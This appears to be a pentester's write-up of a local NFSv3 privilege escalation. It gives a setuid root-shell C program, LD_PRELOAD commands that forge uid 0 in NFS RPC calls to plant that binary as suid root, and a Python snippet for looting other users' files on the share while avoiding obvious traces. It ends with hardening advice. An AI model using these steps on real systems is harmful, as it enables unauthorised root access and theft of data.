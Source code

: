 A tale of a lesser known NFS privesc
====================================

[There](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) [are](https://www.securitynewspaper.com/2018/04/25/use-weak-nfs-permissions-escalate-linux-privileges/) [countless](https://haiderm.com/linux-privilege-escalation-using-weak-nfs-permissions/) [online](https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/) [examples](https://resources.infosecinstitute.com/exploiting-nfs-share/) [of](https://touhidshaikh.com/blog/?p=788) [privilege](https://chryzsh.gitbooks.io/pentestbook/privilege_escalation_-_linux.html) [escalation](https://fullyautolinux.blogspot.com/2015/11/nfs-norootsquash-and-suid-basic-nfs.html) abusing bad NFS configuration.

However they all rely on the same prerequisite: that you are able to mount the share from somewhere else.


The NFS options
---------------

Server export options (found in the `/etc/exports` file):

* `secure`/`insecure`: in secure mode, forces the client to communicate using a port below 1024, hence proving they are root
* `root_squash`/`no_root_squash`: `root_squash` is the **secure default**. It replaces the root user with nfsnobody. This prevents setuid attacks, such as those presented below. The opposite option `no_root_squash` has the share behave like a traditional filesystem
* filtering: only let identified IP addresses mount the shares

Client mount options (found in the `/etc/fstab` file):

* `noexec`: forbids execution from the mountpoint
* `nosuid`: forbids setuid permission on binaries on the mountpoint


The classic remote attack
-------------------------

To briefly sum up what the attacks presented in the previous links do:

* mount the share from another machine where you're root
* place a setuid binary there
* on the victim machine, run the binary and get root

This attack requires two things:

* that the server is running `no_root_squash`
* that there are no network/application restrictions that prevents the attacker from mounting the share on his own computer.

The latter can be verified by listing the shares available on the remote server:
```
[root@pentest] showmount -e nfs-server
Export list for nfs-server:
/nfs_root   (everyone)
```


The local attack
----------------

Now, let's assume that the share server still runs `no_root_squash` but there is something preventing us from mounting the share on our pentest machine. This would happen if the `/etc/exports` has an explicit list of IP addresses allowed to mount the share.

Listing the shares now shows that only the machine we're trying to privesc on is allowed to mount it:
```
[root@pentest]# showmount -e nfs-server
Export list for nfs-server:
/nfs_root   machine
```

This means that we're stuck exploiting the mounted share on the machine locally from an unprivileged user. But it just so happens that there is another, lesser known local exploit.

This exploit relies on a problem in the NFSv3 specification that mandates that it's up to the client to advertise its uid/gid when accessing the share. Thus it's possible to fake the uid/gid by forging the NFS RPC calls if the share is already mounted!

Here's a [library that lets you do just that](https://github.com/sahlberg/libnfs).

### Compiling the example
Depending on your kernel, you might need to adapt the example. In my case I had to comment out the fallocate syscall. Due to the absence of cmake on the system, I also needed to link against the precompiled library which can be [found here](https://sites.google.com/site/libnfstarballs/li).

```bash
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L../libnfs-1.11.0/lib/.libs/
```

### Exploiting using the library
Let's use the simplest of exploits:
```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

Place our exploit on the share and make it suid root by faking our uid in the RPC calls:
```bash
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

All that's left is to launch it:
```bash
[w3user@machine libnfs]$ /mnt/share/a.out
[root@machine libnfs]#
```

There we are, local root privilege escalation!

Kudos to [lnv42](https://github.com/lnv42/) for showing me this cool trick.


Bonus NFShell
-------------
Once local root on the machine, I wanted to loot the NFS share for possible secrets that would let me pivot. But there were many users of the share all with their own uids that I couldn't read despite being root because of the uid mismatch. I didn't want to leave obvious traces such as a chown -R, so I rolled a little snippet to set my uid prior to running the desired shell command:
```python
#!/usr/bin/env python
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```

You can then run most commands as you normally would by prefixing them with the script:
```
[root@machine .tmp]# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old
[root@machine .tmp]# ls -la ./mount/9.3_old/
ls: cannot open directory ./mount/9.3_old/: Permission denied
[root@machine .tmp]# ./nfsh.py ls --color -l ./mount/9.3_old/
drwxr-x---  2 1008 1009 1024 Apr  5  2017 bin
drwxr-x---  4 1008 1009 1024 Apr  5  2017 conf
drwx------ 15 1008 1009 1024 Apr  5  2017 data
drwxr-x---  2 1008 1009 1024 Apr  5  2017 install
```


Takeaways
---------

Don't use NFSv3.

If you **HAVE** to use NFSv3:

* Don't use `no_root_squash` serverside
* Use `noexec` and `nosuid` clientside
